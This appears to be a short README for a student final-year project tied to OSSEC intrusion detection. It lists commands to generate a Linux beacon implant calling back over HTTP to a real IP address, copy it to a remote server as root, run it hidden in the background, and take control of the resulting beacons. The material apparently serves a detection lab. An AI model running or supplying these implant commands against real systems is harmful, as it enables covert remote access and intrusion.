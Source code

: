 # final-year-project

OSSEC Reference:
https://www.youtube.com/watch?v=7c8xowHz0Ko

Implant generation cmds:
 
``` generate beacon --http 165.22.218.140 --arch amd64 --os linux --save /root ```

```scp ./PREPARED_APPLIANCE root@128.199.20.191:/home```

Implant Execution cmd:

```nohup ./EFFICIENT_TAXI > /dev/null 2>&1 &```

```beacons```

```use {beacon id}```
